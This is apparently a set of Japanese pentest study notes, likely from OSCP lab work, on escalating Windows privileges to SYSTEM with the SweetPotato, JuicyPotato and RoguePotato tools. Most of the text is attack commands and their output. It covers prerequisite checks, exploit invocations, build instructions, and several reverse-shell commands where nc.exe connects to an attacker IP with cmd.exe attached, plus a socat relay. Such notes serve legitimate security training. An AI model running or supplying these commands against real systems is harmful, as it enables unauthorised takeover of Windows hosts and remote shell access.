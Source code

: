 # JuicyPotate

sweetpotateは包含的にpocを実行してくれるためまずはそちらを試す

[toc]

### 前提確認

```
whoami /priv
```

`SeImpersonatePrivilege`権限があることを確認

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

windowsのビルドバージョンを確認

* ```
  攻撃対象のマシンが < Windows 10 1809 < Windows Server 2019 の場合 - Juicy Potato
  ```

* ```
  攻撃対象のマシンが >= Windows 10 1809 & Windows Server 2019 の場合 - Rogue Potato
  ```



### 実行(sweetpotate)

https://github.com/uknowsec/SweetPotato/blob/master/img/webshell-new.png

```cmd
SweetPotato.exe -a whoami
SweetPotato.exe -a "C:\Users\Public\nc.exe 192.168.119.169 4443 -e cmd.exe"
```



### 実行(juicypotate)

https://github.com/ohpe/juicy-potato

juicy-potatoをvisual studioでコンパイルして、攻撃対象ホストに配送し、コマンドを実行する。

```cmd
C:\Users\Public\UsersPublicJuicyPotato.exe -t t -p C:\Users\Public\whoami.exe -l 5837

----
# 実行結果
C:\Users\Public>UjiycOptaot.exe -t t -p C:\Users\Public\whoami.exe -l 5837
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 5837
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

* -t：CreateProcessWithTokenの使用を指示する

* -pフラグで実行しようとするプログラムを指定

* -lフラグでCOMサーバーがリッスンするポートを任意に指定

* whoami.exeは任意のバイナリファイル(mafvenomで作成して事前配送すること）

  **※whoami単体できちんとリバースシェル取得できるかをまず確認する**

※ Windows Server 2008 R2でも実行できた。

### 実行(roguepotate)

* https://github.com/antonioCoco/RoguePotato

  ![image-20230409101428457](../../../TIL/OSCP/2023/LAB/Challenge4/img/MS01/image-20230409101428457.png)

* 事前に2つのexeを配送

  ![image-20230409112901158](img/JuicyPotato/image-20230409112901158.png)

* kaliでsocatをListenする

  ```bash
  sudo socat tcp-listen:135,reuseaddr,fork tcp:<攻撃対象ホスト>:9999
  ```

* nc64.exeを配送する

  ```
  nc.exe 192.168.119.169 4444 -e cmd.exe
  ```

* PoCを実行する

  ```
  RoguePotato.exe -r 192.168.119.169 -e "C:\Users\Public\nc.exe 192.168.119.169 4443 -e cmd.exe" -l 9999
  ```




### x86でビルドする方法

* visualstudioのフォルダビューで`JuicyPotato.vcxprof`を開き、ConfigurationTypeがApplicationになっていることを確認する

  ![image-20230211134602822](img/JuicyPotato/image-20230211134602822.png)

* 構成プロパティ→リンカー→システムのサブシステムを変更する

  【変更前】Windows (/SUBSYSTEM:WINDOWS) 
  【変更後】コンソール (/SUBSYSTEM:CONSOLE)
  https://detail.chiebukuro.yahoo.co.jp/qa/question_detail/q13198063873

  https://learn.microsoft.com/ja-jp/cpp/build/reference/subsystem-specify-subsystem?view=msvc-170

  上記サイトを参照すると、win32文字モードアプリケーションに対する設定のよう。
  今回の修正をしたことでx64でのビルドが失敗する可能性があるので注意すること



### JuicyPotateのOS対応表

https://jlajara.gitlab.io/Potatoes_Windows_Privesc



### CLSIDの対応表

https://ohpe.it/juicy-potato/CLSID/Windows_Server_2012_Datacenter/



### トラブルシュート

FTPで転送するときは必ずバイナリモードで

```cmd
C:\Users\Public>JuicyPotato.exe
JuicyPotato.exe
This version of C:\Users\Public\JuicyPotato.exe is not compatible with the version of Windows you're running. Check your computer's system information and then contact the software publisher.
```



### 参考サイト

[potatesのまとめサイト](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)

